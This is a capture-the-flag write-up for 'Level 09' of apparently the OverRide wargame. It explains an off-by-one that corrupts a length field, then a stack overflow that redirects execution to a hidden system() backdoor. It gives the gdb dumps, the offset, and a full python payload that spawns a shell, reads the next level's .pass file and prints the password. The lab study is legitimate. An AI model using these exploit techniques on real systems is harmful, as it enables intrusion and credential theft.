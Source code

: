 # Level 09

<h3>source.c</h3>

```console
The source for this program is quite long
So i will not include it in this file, and can be check in the source.c directly if needed
```

<h3>Analysis</h3>

At 1st glance, this program does almost nothing, but upon investigate further on the code, we can see that there is a flow.

Before we talk about the flaw, lets talk about the `struct s_msg` that exist in this code, base on the clue in the asm, there exit a `struct` like data type

After fixing all the clue together, we will get a `struct` that looks like this

```console
typedef struct	s_msg {   -> total size 192 base on the buffer in handle_msg
	char		msg[140];       -> [0x0]
	char		username[40];   -> [0x8c]
	size_t	len;            -> [0xb4]
}				        t_msg;
```

Now we can talk about the flaw which exits in the `set_username()`,

The function will get input with fgets and will then copy it into the struct->username with a loop and the ending condition is this `while (index < 41 && str[index] != '\0')`

From the struct, we can see that `username` is designed to be only `40 bytes` long, and the loop ending condition is `< 41` which means we could write into `struct->username[40]`

But the end of the `struct->username` should be at `index 39`, `index 40` will write directly on the memory area that are supposed to be for `struct->len`

Now we can take a look at `set_msg()`

```console
fgets(str, 1024, stdin);
strncpy(msg->msg, str, msg->len);
```

The functions can read up to `1024 bytes` from `stdin`, but the copy is limited to the `struct->len` which was initialize as `140` at the `handle_msg()`

By using the flaw, we can change the number of `struct->len`, and we could ends up writing a lot more data into `struct->msg` which could ends up overwriting the `RET` address!

The last part will be `secret_backdoor()` which is not called by any of the function, but exits in the code

```console
void secret_backdoor(void) {
	char str[128];

	fgets(str, 128, stdin); 
	system(str);
}
```

This function will call `system()` with any input that we give in the stdin, so we put `/bin/sh` and we could spawn a shell

Our final target of this project is to overwrite the `RET` and point it into the address of `secret_backdoor()`

<h3>Exploit</h3>

Lets find out what will be the offset to reach the `RET`

```console
(gdb) break *0x000055555555492b     -> breakpoint at the end of handle_msg()

(gdb) r
Starting program: /home/users/level09/level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: aaaa
>: Welcome, aaaa
>: Msg @Unix-Dude
>>: bbbb

Breakpoint 1, 0x000055555555492b in handle_msg ()

(gdb) info r
rax            0x7fffffffe4c0	140737488348352
rbx            0x0	0
rcx            0x7ffff7ab32e0	140737348580064
rdx            0x0	0
rsi            0x6	6
rdi            0x555555554bc0	93824992234432
rbp            0x7fffffffe580	0x7fffffffe580
rsp            0x7fffffffe4c0	0x7fffffffe4c0

(gdb) x/100wx $rsp
0x7fffffffe4c0:	0x62626262	0x0000000a	0x00000000	0x00000000    -> `0x7fffffffe4c0` start of the struct, and the 1st will be struct->msg, and we can see that our input bbbb is there
0x7fffffffe4d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe4e0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe4f0:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe500:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe510:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe520:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe530:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe540:	0x00000000	0x00000000	0x00000000	0x61616161    -> `0x7fffffffe54c` here will be struct->username, and we can see that our input aaaa is there
0x7fffffffe550:	0x0000000a	0x00000000	0x00000000	0x00000000
0x7fffffffe560:	0x00000000	0x00000000	0x00000000	0x00000000
0x7fffffffe570:	0x00000000	0x0000008c	0xffffe590	0x00007fff    -> `0x7fffffffe574` here will be struct->len, and we can see that 0x8c or 140 is there
0x7fffffffe580:	0xffffe590	0x00007fff	0x55554abd	0x00005555    ->  base on info register, we can see that rbp is located at `0x7fffffffe580` and as usual, RET should be right after that
```

From the debugging above, we can find `RET` address is located at `0x7fffffffe588` and the `struct->msg` is at `0x7fffffffe4c0` and the distance will be `0xc8` or `200 bytes`

```console
(gdb) p secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```

Now we have the address of the `secret_backdoor()` as well, time to build our payload!

```console
1st input for username = "a" * 40 + "\xff" + "\n"
"\xff" = 255, is used to overwrite struct->len

2nd input for message = "a" * 200  + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n"
```

```console
level09@OverRide:~$ python -c 'print "a" * 40 + "\xff" + "\n" + "a" * 200  + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh"' > /tmp/a
level09@OverRide:~$ cat /tmp/a - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
/bin/sh
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

level09@OverRide:~$ su end
Password:
end@OverRide:~$ ls
end
end@OverRide:~$ cat end
GG !
```